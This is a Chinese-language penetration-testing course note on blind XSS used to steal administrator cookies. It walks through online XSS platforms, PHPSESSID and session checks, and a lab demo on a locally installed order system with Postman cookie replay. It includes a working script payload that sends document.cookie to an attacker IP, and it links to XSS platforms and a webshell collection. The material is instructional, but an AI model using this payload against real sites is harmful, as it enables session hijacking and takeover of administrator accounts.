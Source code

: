 ![](https://img.yatjay.top/md/202203022011002.png)

# 涉及知识

## XSS漏洞利用的要点

### XSS的核心

网站管理者后台会查看我们提交的数据，抓住这一点，这一点就是成为跨站攻击的点

### XSS应用场景

- 留言板
- 评论区
- 订单系统
- 反馈条件等

## XSS平台及工具使用

### 在线XSS平台

https://xss.pt/xss.php——优先

https://xss8.cc/——有时没有响应

也可参考《Web安全攻防：渗透测实战指南》第二章的内容，自己搭建XSS平台

## Session与Cookie获取问题

### XSS获取到的Cookie不能直接用来登录网站后台

对比XSS获得的Cookie和管理员浏览器中直接拿到的Cookie

XSS平台中得到的Cookie

```
cookie : ant[uname]=admin; ant[pw]=10470c3b4b1fed12c3baac014be15fac67c6e815; PHPSESSID=cd5380a5bb4c679e5c76da76891b16b3
```

使用此Cookie成功登录pikachu的XSS盲打后台

![](https://img.yatjay.top/md/202203041443036.png)

管理员浏览器直接获取到的Cookie值

```
Cookie
ant[uname]=admin; ant[pw]=10470c3b4b1fed12c3baac014be15fac67c6e815; PHPSESSID=cd5380a5bb4c679e5c76da76891b16b3
```

使用此Cookie也可以成功登录pikachu的XSS盲打后台

以上测试，两种方法得到的Cookie值无差别，但是**有时XSS获取到的Cookie值相比直接拿到的Cookie值，会缺少一个字段，即PHPSESSID字段(JSP脚本网站则为JSPSESSID)**

如果目标网站使用Session进行验证，那么盗取Cookie进行攻击登录是无效的，如果XSS接收不到PHPSESSID值，就无法登录管理员后台。比如删除PHPSESSID字段后进行登录后台失败

![](https://img.yatjay.top/md/202203041455887.png)

一般地，若使用SESSION进行用户验证，会在后台代码中写明，比如jfdd的管理员验证部分代码如下

```php
<?php 
session_start(); //要验证SESSION，看是不是管理员
if($_SESSION["admin"]!="jfdd"){

	echo "<script>location.href='../';</script>";
    exit;
}
?>
```

#### PHPSESSID字段的获取——配合读取phpinfo等信息源码等

如果对方服务器使用Session验证，无法通过XSS一次性得到PHPSESSID，则在对方服务器构造phpinfo页面，当中提到Cookie值时会记录PHPSESSID值，可以为我们所用

![](https://img.yatjay.top/md/202203041502641.png)

具体思路为让对方的跨站漏洞访问我们构造的phpinfo文件，将访问结果返回，读取返回结果后获得PHPSESSID，在线XSS平台也具备此功能即返回页面源码模块

![](https://img.yatjay.top/md/202203041506773.png)

用此模块提供的脚本，访问我们上传的phpinfo页面并返回结果，从返回结果中得到PHPSESSID，但是此方法比较鸡肋。

# 演示案例

## 某营销订单系统XSS盲打—平台

配置环境：在本地网站根目录，按照说明，安装军锋真人CS野战在线预订系统安装程序V1.0

![](https://img.yatjay.top/md/202203031030361.png)

在线XSS平台https://xss.pt/xss.php，注册并创建新项目，只勾选默认模块即可

找一个获取XSS语句，本XSS目的是获取网站管理员Cookie

![](https://img.yatjay.top/md/202203031753781.png)

复制XSS语句粘贴到目标网站留言板，提交留言

![](https://img.yatjay.top/md/202203031754213.png)

到管理员后台查看，查看前端代码，可见已经触发XSS语句

![](https://img.yatjay.top/md/202203031757544.png)

在XSS平台可以看到获取到了管理员Cookie

![](https://img.yatjay.top/md/202203031758896.png)

## 工具Http/s数据包提交Postman使用

接上述获取到的Cookie，使用Postman工具，利用Cookie进行登录

这里我们使用本地浏览器的原始Cookie值而不是XSS平台中获取到的Cookie值(原因后面再说，此处演示使用Postman带Cookie值进行访问的流程)

复制本地浏览器原始Cookie

![](https://img.yatjay.top/md/202203031811439.png)

使用Postman工具带Cookie值(浏览器原始Cookie值)进行访问

![](https://img.yatjay.top/md/202203031814002.png)

点击send进行访问，可以成功进入管理员后台

![](https://img.yatjay.top/md/202203031815539.png)

**注意**：此处带Cookie值访问网站后台使用的是从(管理员的)浏览器获得的原始Cookie，而非在XSS平台收到的Cookie值。仅做带Cookie访问网站后台的演示操作，原因后续讲解。

## 不使用在线XSS平台—手写代码

获取Cookie的核心代码为`document.cookie`的值，只需提交XSS脚本使得目标网站把`document.cookie`的结果返回到攻击者的机器上

前台如留言板提交的XSS脚本示例如下：

```js
<script>location.href="http://192.168.132.144/cookie.php?cookie="+document.cookie</script>
```

意思是将目标网站的Cookie值，以GET方式提交到攻击者主机`192.168.132.144`的`cookie.php`文件，由`cookie.php`来处理捕获的Cookie信息

在攻击方查看cookie.php的处理结果，比如是将收到的Cookie值写入某个文件当中等

详细见：[XSS提取cookie到远程服务器](https://blog.css8.cn/post/13058394.html)

## 某Shell箱子系统XSS盲打—工具

略：00:34:00–01:02:00

## Kali Linux的BeEf-Xss漏洞利用框架的使用

见于补充内容中的工具使用目录下，如下链接

[Kali Linux的Beef-Xss漏洞利用框架的使用](../Part0 补充内容/02_工具使用/Kali的BeEF-XSS安装与使用)

# 涉及资源

http://xss.fbisb.com/

https://github.com/tennc/webshell

https://www.postman.com/downloads/

XSS-订单系统.zip (428 KB) ：https://pan.baidu.com/s/1lIUZvEVXs1du-Bmkt7-abA 提取码：xiao 

WEBSHELL箱子系统V2.0.rar (65 KB)：https://pan.baidu.com/s/13H4N1VTBVwd3t8YWpECBFw 提取码：xiao 
